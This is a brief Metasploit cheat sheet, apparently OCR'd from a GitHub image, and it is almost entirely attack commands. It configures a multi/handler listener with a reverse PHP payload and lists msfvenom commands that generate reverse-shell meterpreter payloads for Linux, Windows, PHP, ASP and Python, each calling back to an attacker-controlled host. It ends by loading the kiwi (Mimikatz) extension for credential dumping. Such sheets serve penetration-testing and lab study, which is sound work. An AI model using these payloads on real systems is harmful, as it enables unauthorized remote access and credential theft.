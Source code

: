 # Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target

shell

# setting

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# output executable file on linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

# PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python

msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

# load

load python
load kiwi
